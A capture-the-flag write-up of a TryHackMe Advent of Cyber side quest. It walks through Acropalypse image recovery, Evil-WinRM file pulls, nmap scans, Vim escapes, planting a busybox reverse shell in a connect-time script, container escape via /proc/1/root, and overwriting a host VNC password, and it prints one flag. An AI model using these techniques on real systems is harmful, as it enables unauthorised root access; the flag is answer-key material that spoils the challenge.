# Side Quest 1

## TL;DR:
1) Un-Acropolypse the cropped image from the chat conversation.
   {:start="2"}
2) Use VIM or Nano to browse to a shell that's loaded on every connection, and add to it a shell that's somewhere unexpected on the system. Then connect and browse to a root PID proc root folder.
   {:start="3"}
3) Using the root shell, update the VNC password on the host home directory to access a desktop.

## Part 0

Finding this puzzle was probably the most difficult for me as I have very little experience around end-user systems and probably an insufficient amount of exposure to Windows Active Directory. But none-the-less: Here I find myself needing to get through this hurdle to get to the next challenge.

Again, the main event is outside the scope of these articles, the daily activity itself has a great writeup and instructions. We'll start off after the target flag was captured, at the hint for our room:

"Van Sprinkles left some stuff around the DC. It's like a secret message waiting to be unraveled!"

In this case, DC is Domain Controller, the host that our users are on. Shame on them!

In the same folder that the flag resides is mysterious chat files. With Evil-WinRM I simply did a Compress-Archive and download command of the desktop so I could browse to the chat log.

```
*Evil-WinRM* PS C:\Users\vansprinkles> Compress-Archive ../Administrator/Desktop admin
*Evil-WinRM* PS C:\Users\vansprinkles> ls


    Directory: C:\Users\vansprinkles


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---       11/14/2018   6:56 AM                Desktop
d-r---       11/15/2023   9:29 PM                Documents
d-r---        9/15/2018   7:19 AM                Downloads
d-r---        9/15/2018   7:19 AM                Favorites
d-r---        9/15/2018   7:19 AM                Links
d-r---        9/15/2018   7:19 AM                Music
d-r---        9/15/2018   7:19 AM                Pictures
d-----        9/15/2018   7:19 AM                Saved Games
d-r---        9/15/2018   7:19 AM                Videos
-a----       12/11/2023   4:51 PM        1667881 admin.zip


do*Evil-WinRM* PS C:\Users\vansprinkles> download admin.zip
                                        
Info: Downloading C:\Users\vansprinkles\admin.zip to admin.zip
                                        
Info: Download successful!
```
With a quick python3 -m http.server --bind 0.0.0.0 9000 I had it open in my browser to look at it the way it was intended.



McGreedy is complaining about full screen snapshots that might leak valuable data. And even goes into deleting an image and sending a cropped version of it using "Snip & Sketch", the Windows 11 default screen clipping tool:



I'll admit, my first inclination was to look up the app and see how it runs. I found a great stack overflow article talking about how it aggressively saved cached images forever in the `%LocalAppData%` folder. I tried to access it and was hit with a permission denied. In fact, every folder OTHER than the desktop basically lead to this.

After spending about 20-30 minutes looking up Windows AD privilege escalation techniques, a vulnerability for the application that had nothing to do with AD was brought to my attention.

"Acropolypse". Apparently some applications cropping images leave the cropped file in a state where the removed image can be brought back if you know the app and the resolution to plug into a tool like https://github.com/frankthetank-music/Acropalypse-Multi-Tool

Using the full screenshot to find the resolution of the cropped image, and plugging in Windows 11: You're presented with a neat snapshot of the QR code to:

## Part 1

This was actually a really juicy and difficult task to pick an area to focus. On one hand, teams were already solving it almost as soon as they entered the room; on the other hand we're about to see all kinds of dilectable targets.

There's probably a tool to do this work automagically, or a shell popper that could have taken immediate advantage to such vulnerabilities, but I took the long way around. Part of that was because I wasn't familiar with the fancy tools, but the other part was because of this GIF playing in the room. A computer screen scrolling through Docker, Busybox, Vim, FTP. Absolutely some of my favorite things!

Enumerating
Of course to start off we need to know what ports we even have to access. We use our nmap again:

```bash
└─$ nmap -sC -sV -p- 10.10.224.105 -vv --min-rate 1500
Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-11 12:03 PST
<SNIP
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
<SNIP
80/tcp   open  http    syn-ack WebSockify Python/3.8.10
<SNIP>
|_http-server-header: WebSockify Python/3.8.10
8065/tcp open  telnet  syn-ack BusyBox telnetd 1.14.0 or later
| fingerprint-strings: 
|   GenericLines, GetRequest, Help, NCP, NULL, RPCCheck, SIPOptions, tn3270: 
|_    Ubuntu 22.04.3 LTS
8075/tcp open  ftp     syn-ack BusyBox ftpd (D-Link DCS-932L IP-Cam camera)
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
<SNIP>
8085/tcp open  telnet  syn-ack
| fingerprint-strings: 
|   NULL: 
|     Ubuntu 22.04.3 LTS
|     [2;1H
|     [2;1H 
|     [3;1H
|     \x1b[0%m
<SNIP>
8095/tcp open  telnet  syn-ack
| fingerprint-strings: 
|   GenericLines: 
|     Ubuntu 22.04.3 LTS
|     [?2004h
|     [1;24r
|     [?7h
|     [?25l
|     [22;24H
|     [0;7m
|     Directory '.' is not writable ]
|     [0;7m
|     nano 6.2 New Buffer 
<SNIP>
Ports 22, 80, 8065, 8075, 8085, and 8095. That's a lot of surface area and a lot of "Telnet" fingerprints. Very suspicious.
```

Port 22 requires key auth, so we'll just mark that one off to THM AWS-isms required for the exercise to exist; for now.

Port 80 results in "Method Not Allowed" page and reports to be a WebSockify service hosted by Python - we can come back to that, too.

Port 8075 immediately lets us log in with our file browser and gives us our first flag and our first clue!




Not much of a clue, but somewhere FLAG2 is hiding in an environment variable. Very thoughtful Frosty!

Netcat to 8085 and 8095 result in pretty interactive Vim& Nano screens respectively. Neither allow for ctrl+characters to be passed, so some quick googling convinced me to try telnet with some options. Be warned that I prefer Vim and I did not exploit Nano, so hope you're willing to take a bit of a plunge here.



Pictured: Someone's Night Terror
Of course, you see CTF and you see Vim, you run to GTFO bin, like me. And if you're smart, unlike me, you'll actually peruse the document for VIM and see that python compiled Vim binaries come WITH a built in Python shell. I did NOT peruse the documentation and proceeded to try my default behavior of dropping into a shell...



Two things happened here. One, I cried. Second I realized that the default shell was a silly location in /tmp/, and that it couldn't be executed anyway. Very odd.

Before going too much further, let's take a quick look at our other open telnet port to make sure I'm not missing any other obvious entry points, since this is a race to first and all, and 6 people already finished? Whatever, let's be methodical and not radical.

8065 is our last open port and doesn't yield much goodness. At the time I hadn't really considered what the output even meant yet, but we'll get to that later.



Okay not much luck there. Fine, keep your secrets.

Back to my good ol' Vim

Googling around for Vim commands (I said I like it, not that I'm any good at it), I'm reminded of some (read: not Python) built in functionality like :echo. Let's see if this user knows about the flag before we go, after all 2-of-4 shouldn't be too much further into the exercise I think.

> Truncated Second Flag


Seems like things ARE getting spicy. Not too bad, yet.

Next was to see if I could browse any files with `:Vex`



Oh yeah, baby! That's what I thought as I stared at a wall that didn't look like a wall. First stop was to look to see what was up with /tmp/sh, of course it didn't exist here. Then off to /bin/... which was empty?! In fact, many of my normal go-to's were entirely empty except for /usr/sbin which was missing anything that might be particularly interesting. I did find this, though, that seemed suspicious at the time.




Looks like frosty has his own shell, but it's empty. That's very very odd... But I can see it, and tests show I can write to it! We'll just have to come back to that piece of info later.

I guess we need to go a bit deeper. Now when I want to know about what services and binaries other users are running, or what scripts might be available, I go looking for cron (missing), ps (missing), or netstat (missing!). Of course since cron is missing I can't inject a remote shell anyway because shells are missing and I don't have the shell I can't dig deeper.

> Editors note: After I completed this exercise, a new hint was added to "BYOShell"

Fortunately for me, Linux keeps everything in a file, and Docker is notorious for being easy and convenient to mount to. So I decided to start with looking for commands and open file handles in /proc that might help me see what everything else on the system is doing. That's when I found something disturbing for what I'd expect to see on a container. And at this point I had assumed I was looking at at least 5 potential containers on a host, each with a service, but when I saw the file count in /proc I realized there was something really unsettling about what went down here.



Hundreds of processes that had had thousands of processes at some point. This was insane.

I did what any healthy individual would do and told myself a lie that it would be okay, and rolled up my sleeves to start digging. Knowing that PIDs tend to start with system commands in the low digits, services somewhere in the middle, and user-space somewhere at the end, I started with the higher numbers and glanced at the cmdline to see what types of executables were being ran on a server with no executables.

I clocked a couple that were all starting /etc/busybox telnetd, a couple with Vim, a couple with Nano, and one with that funny shell again:


I know that's empty, so I go to look up a local busybox container to find all the functions it has - I didn't realize the busybox binary had telnetd as a function at the time for example. It turns out it can do all SORTS of neat things...

```bash
└─$ docker run -it busybox busybox                           
BusyBox v1.36.1 (2023-12-04 19:44:32 UTC) multi-call binary.
BusyBox is copyrighted by many authors between 1998-2015.
Licensed under GPLv2. See source distribution for detailed
copyright notices.

Usage: busybox [function [arguments]...]
   or: busybox --list[-full]
   or: busybox --show SCRIPT
   or: busybox --install [-s] [DIR]
   or: function [arguments]...

        BusyBox is a multi-call binary that combines many common Unix
        utilities into a single executable.  Most people will create a
        link to busybox for each function they wish to use and BusyBox
        will act like whatever it was invoked as.

Currently defined functions:
        [, [[, <SNIP> setuidgid, sh, sha1sum,<SNIP>
```

Like start a SHELL that is executed every time a connection is made (That's the l in the command). Well, how convenient for me! But I still don't have anywhere to tuck it. A couple more rounds of digging through cmdlines later I find this, though:



Well well well, fancy meeting you here `/etc/file/busybox`. Why someone would park an executable in an `/etc` directory, I'll never know; but I can't be too mad because it was there!

If anyone wants to know what the rest of that command does, it uses a tcpserver to hold open 8075 for a frontend to busybox's FTPd function. Busybox sure has a lot of functionality.

Now to summarize:

I have a confirmed shell that I have write access to at `/usr/frosty/sh`, I have a valid binary that exists where I can get to it in `/etc/file/busybox`, and I have that script bound to a port that I know is open to my attack box on port 8065. This is all the makings of a cheap Hollywood hacker scene.

I go to `/usr/frosty/sh`, I add a line to call `/etc/file/busybox` nc reverse shell and telnet to 8065 and!... nothing. Nothing happened. Same error screen.

I went back in to the script and changed it to include the shell location of `#!/etc/file/busybox` and tried again.

```bash
┌──(tokugero㉿kali)-[~/thm/rooms/aoc2023/task3]
└─$ telnet
telnet> toggle localchars
Won't recognize certain control characters.
telnet> open 10.10.83.24 8065
Trying 10.10.83.24...
Connected to 10.10.83.24.
Escape character is '^]'.

Ubuntu 22.04.3 LTS
/ # whoami
/usr/frosty/sh: whoami: not found
/ # /etc/file/busybox whoami
root
/ # /etc/file/busybox cat /usr/frosty/sh
#!/etc/file/busybox
```
Well I won't get easy access to the commands, but I will get my shell; and not only that: Looks like it was running as root too! Very convenient.

Now I was able to do my ps properly and get a view of the system. We're running websockify in front of Xtigervnc, which explains why I couldn't get to it with a browser, we've got many docker ports open that I SHOULDN'T be seeing on my container, I'm seeing a GUI environment with the ubuntu user account, and finally my precious PIDs that helped me get to where I am today.

In some CTF events, if the flag's not in your env, it's in your home directory. So lets grab those and go find that last flag.

```bash
/ # /etc/file/busybox env
BOOTSTRAP=/etc/bootstrap.sh
HOSTNAME=busybusybox
FTPD_BANNER=Frosteau very busy note box
SHLVL=2
PROT=/usr/special/protector.sh
HOME=/root
FLAG2=THM{Seems.like.we.are.getting.busy}
BUSY=/etc/busybox
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
SHELL=/etc/shells
PASSWD=/etc/passwd
PWD=/
BU=/etc/file/busybox
/ # /etc/file/busybox ls /root/
flag-3-of-4.txt
/ # 
```
So from our original prompt and gif, we have gotten something from FTP, we've gotten something from Vim, we've gotten something from busybox... now we just need to go find our white(blue) whale.

Something I happen to know, mostly because of a lot of Kubernetes work I've done, but also because google tells me so: The /proc folder might still be useful for an escape just like our last exercise. You see, because I can see all these PIDs, and I know that there isn't any systemd init happening in my container, I can assume that this container is currently looking at all the host PIDs. Which means /proc has all the host PIDs. Which means every /proc/*/root from the host is browsable by me, as it's an overlay link to what the PROCESS can see, not what I can see.

So like any good container, let's go look at PID 1 to see how it's looking today.
```bash
/ # cd /proc/1/root/
(unreachable)/ # /etc/file/busybox ls -alhn
total 80
drwxr-xr-x   19 0        0           4.0K Dec 13 04:15 .
drwxr-xr-x   19 0        0           4.0K Dec 13 04:15 ..
lrwxrwxrwx    1 0        0              7 Oct 26  2020 bin -> usr/bin
drwxr-xr-x    3 0        0           4.0K Oct 28 08:37 boot
drwxr-xr-x   15 0        0           3.2K Dec 13 04:15 dev
drwxr-xr-x  155 0        0          12.0K Dec 13 04:15 etc
drwxr-xr-x    3 0        0           4.0K Feb 27  2022 home
lrwxrwxrwx    1 0        0              7 Oct 26  2020 lib -> usr/lib
lrwxrwxrwx    1 0        0              9 Oct 26  2020 lib32 -> usr/lib32
lrwxrwxrwx    1 0        0              9 Oct 26  2020 lib64 -> usr/lib64
lrwxrwxrwx    1 0        0             10 Oct 26  2020 libx32 -> usr/libx32
drwx------    2 0        0          16.0K Oct 26  2020 lost+found
drwxr-xr-x    2 0        0           4.0K Oct 26  2020 media
drwxr-xr-x    2 0        0           4.0K Oct 26  2020 mnt
drwxr-xr-x    3 0        0           4.0K Oct 27 09:03 opt
dr-xr-xr-x  248 0        0              0 Dec 13 04:14 proc
drwx------    7 0        0           4.0K Dec  5 12:02 root
drwxr-xr-x   39 0        0           1.1K Dec 13 04:16 run
lrwxrwxrwx    1 0        0              8 Oct 26  2020 sbin -> usr/sbin
drwxr-xr-x    8 0        0           4.0K Feb 27  2022 snap
drwxr-xr-x    2 0        0           4.0K Oct 26  2020 srv
dr-xr-xr-x   13 0        0              0 Dec 13 04:14 sys
drwxrwxrwt   14 0        0           4.0K Dec 13 04:21 tmp
drwxr-xr-x   14 0        0           4.0K Oct 26  2020 usr
drwxr-xr-x   14 0        0           4.0K Feb 27  2022 var
```
Well this doesn't look like my other root directory..

```bash
(unreachable)/ # /etc/file/busybox ls -alhn /root
total 24
drwx------    1 0        0           4.0K Dec 13 04:50 .
drwxr-xr-x    1 0        0           4.0K Dec 13 04:16 ..
-rw-------    1 0        0            184 Dec 13 04:57 .ash_history
-rw-r--r--    1 0        0           3.0K Oct 15  2021 .bashrc
-rw-r--r--    1 0        0            161 Jul  9  2019 .profile
-rw-------    1 0        0             40 Nov  5 19:09 flag-3-of-4.txt
(unreachable)/ # /etc/file/busybox ls -alhn root/
total 48
drwx------    7 0        0           4.0K Dec  5 12:02 .
drwxr-xr-x   19 0        0           4.0K Dec 13 04:15 ..
lrwxrwxrwx    1 0        0              9 Feb 27  2022 .bash_history -> /dev/null
-rw-r--r--    1 0        0           3.0K Dec  5  2019 .bashrc
drwxr-xr-x    3 0        0           4.0K Feb 27  2022 .cache
drwxr-xr-x    3 0        0           4.0K Feb 27  2022 .local
-rw-r--r--    1 0        0            161 Dec  5  2019 .profile
-rw-r--r--    1 0        0             66 Feb 27  2022 .selected_editor
drwx------    2 0        0           4.0K Feb 27  2022 .ssh
-rw-------    1 0        0              0 Dec  5 12:02 .viminfo
drwxr-xr-x    2 0        0           4.0K Feb 27  2022 .vnc
-rw-r--r--    1 0        0             51 Nov  5 19:09 flag-4-of-4.txt
drwxr-xr-x    4 0        0           4.0K Feb 27  2022 snap
-rw-r--r--    1 0        0             67 Dec  5 12:02 yetikey3.txt
(unreachable)/ # pwd
/proc/1/root
```
And these sure don't look like the same directory, and those don't look like the same flags and that looks like the yetikey and by golly! 12ish hours later and I have gathered all the evidence I needed to get to the bottom of this host.

That's it, turn in your prizes you've won. But it doesn't feel like I've won. There's still that websocket. Let's go a level deeper and get that Ubuntu user in.

## Part 2

Our final mission on Side Quest 3, the Xtigervnc websocket.

To recap on our enumeration so far:

### curl:
```bash
┌──(tokugero㉿kali)-[~]
└─$ curl -I http://10.10.83.24:80
HTTP/1.1 405 Method Not Allowed
Server: WebSockify Python/3.8.10
Date: Wed, 13 Dec 2023 05:06:28 GMT
Connection: close
Content-Type: text/html;charset=utf-8
Content-Length: 472
```
### ps:
```bash
/ # /etc/file/busybox ps ewww | /etc/file/busybox grep -e "websockify\|vnc"
 1096 ubuntu    1:57 /usr/bin/Xtigervnc :1 -desktop tryhackme:1 (ubuntu) -auth /home/ubuntu/.Xauthority -geometry 1900x1200 -depth 24 -rfbwait 30000 -rfbauth /home/ubuntu/.vnc/passwd -rfbport 5901 -pn -localhost -SecurityTypes VncAuth
 1127 root      0:02 python3 -m websockify 80 localhost:5901 -D
```
Some context from both lead me to understand that websockify is just a websocket proxy that passes connections to a VNC port. ps confirms this to be true as well.

https://github.com/novnc/noVNC/blob/master/utils/novnc_proxy

I found this project that is part of the ecosystem that lets us set up a quick frontend to connect to the exposed remote websocket without too much trouble.

```bash
┌──(tokugero㉿kali)-[~/…/rooms/aoc2023/task3/noVNC]
└─$ ./utils/novnc_proxy --vnc 10.10.83.24:80 --listen localhost:9999  
Warning: could not find self.pem
Using installed websockify at /usr/bin/websockify
Starting webserver and WebSockets proxy on host localhost port 9999
WebSocket server settings:
  - Listen on localhost:9999
  - Web server. Web root: /home/tokugero/thm/rooms/aoc2023/task3/noVNC
  - No SSL/TLS support (no cert file)
  - proxying from localhost:9999 to 10.10.83.24:80

Navigate to this URL:

    http://localhost:9999/vnc.html?host=localhost&port=9999

Press Ctrl-C to exit
```



Woah.

Looking at Xtigervnc some more, it seems that `-rfbauth` will get checked EVERY TIME there's a new connection. The documentation explains that this live loading behavior is a feature, and I have to agree in this case.

Looking up the path listed in the `ps`, there is no `.vnc` folder.

I load up a local copy of xtigervncpasswd, set a weak 8 character password, and pop it in `/home/ubuntu/.vnc/passwd` with `0600` perms and ownership updates... and nothing. So much nothing I think maybe the unicode didn't transfer. I tried passing it in with `FTP`, I tried `base64` encoding it, I tried bargaining with the rubber ducks on my desk: it just wasn't working.

I'm ashamed to admit I lost a few hours here doing research on the same property I had already understood and updated, but maybe there was something. Something like a way to debug the binary. Like a log file. Like a `/proc` file handle that could tell me where to go. Let's go see where that file handle thinks it is...

```bash
 1096 ubuntu    3:31 /usr/bin/Xtigervnc :1 -desktop tryhackme:1 (ubuntu) -auth /home/ubuntu/.Xauthority
 1127 root      0:02 python3 -m websockify 80 localhost:5901 -D
 ...
 (unreachable)/ # /etc/file/busybox ls -alhn
total 80
drwxr-xr-x   19 0        0           4.0K Dec 13 04:15 .
drwxr-xr-x   19 0        0           4.0K Dec 13 04:15 ..
lrwxrwxrwx    1 0        0              7 Oct 26  2020 bin -> usr/bin
drwxr-xr-x    3 0        0           4.0K Oct 28 08:37 boot
drwxr-xr-x   15 0        0           3.2K Dec 13 04:15 dev
drwxr-xr-x  155 0        0          12.0K Dec 13 04:15 etc
drwxr-xr-x    3 0        0           4.0K Feb 27  2022 home
lrwxrwxrwx    1 0        0              7 Oct 26  2020 lib -> usr/lib
lrwxrwxrwx    1 0        0              9 Oct 26  2020 lib32 -> usr/lib32
lrwxrwxrwx    1 0        0              9 Oct 26  2020 lib64 -> usr/lib64
lrwxrwxrwx    1 0        0             10 Oct 26  2020 libx32 -> usr/libx32
drwx------    2 0        0          16.0K Oct 26  2020 lost+found
drwxr-xr-x    2 0        0           4.0K Oct 26  2020 media
drwxr-xr-x    2 0        0           4.0K Oct 26  2020 mnt
drwxr-xr-x    3 0        0           4.0K Oct 27 09:03 opt
dr-xr-xr-x  249 0        0              0 Dec 13 04:14 proc
drwx------    7 0        0           4.0K Dec  5 12:02 root
drwxr-xr-x   39 0        0           1.1K Dec 13 04:16 run
lrwxrwxrwx    1 0        0              8 Oct 26  2020 sbin -> usr/sbin
drwxr-xr-x    8 0        0           4.0K Feb 27  2022 snap
drwxr-xr-x    2 0        0           4.0K Oct 26  2020 srv
dr-xr-xr-x   13 0        0              0 Dec 13 04:14 sys
drwxrwxrwt   14 0        0           4.0K Dec 13 04:21 tmp
drwxr-xr-x   14 0        0           4.0K Oct 26  2020 usr
drwxr-xr-x   14 0        0           4.0K Feb 27  2022 var
```

This is looking familiar... why, is this on the host system we rooted earlier... let's go look at the relative path for `/home/ubuntu/.vnc/passwd` where this service THINKS its live loading from...



OF COURSE this is an VNC session to the host box!

I upload my local vncpasswd generated file through ftp to `/tmp/ftp/vncpasswd`, `move`/`chmod`/`chown` it to `/proc/<xtigervncPID>/root/home/ubuntu/.vnc/passwd`, and go to connect...

